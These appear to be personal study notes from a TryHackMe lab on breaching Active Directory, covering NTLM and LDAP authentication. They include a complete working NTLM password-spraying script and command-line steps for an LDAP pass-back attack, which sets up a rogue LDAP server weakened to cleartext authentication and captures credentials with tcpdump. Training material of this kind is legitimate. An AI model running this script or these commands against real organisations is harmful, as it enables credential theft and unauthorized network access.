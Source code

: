 # Compromising Active Directory

# Breaching Active Directory
## NTLM and NetNTLM
New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM.   
<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/e39c9f95-dbec-484c-a3f2-6cd244c93fdd" width=600>

### Brute-force Login Attacks  
**Password Spraying**  
<details>
<summary>ntlm_passwordspray.py</summary>  

```
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)



if __name__ == "__main__":
    main(sys.argv[1:])
```

</details>  

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>  
# <userfile> - Textfile containing our usernames - "usernames.txt"
# <fqdn> - Fully qualified domain name associated with the organisation that we # are attacking - "za.tryhackme.com"
# <password> - The password we want to use for our spraying attack - "Changeme123"
# <attackurl> - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"
```

## LDAP
Another method of AD authentication that applications can use is Lightweight Directory Access Protocol (LDAP) authentication. With LDAP authentication, the application directly verifies the user's credentials.  
<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/a241a94c-c3d2-446b-b43f-c8330fcc6e25" width=800>  

### LDAP Pass-back Attacks
This is a common attack against network devices, such as printers, when you have gained initial access to the internal network, such as plugging in a rogue device in a boardroom.  
1. Hosting a Rogue LDAP Server  
`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`  
`sudo dpkg-reconfigure -p low slapd`  
Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods.  
we need to create a new ldif file.  
```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```  
`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`  
2. Capturing LDAP Credentials  
you can use a tcpdump to capture the credentials using the following command:  
`sudo tcpdump -SX -i breachad tcp port 389`  

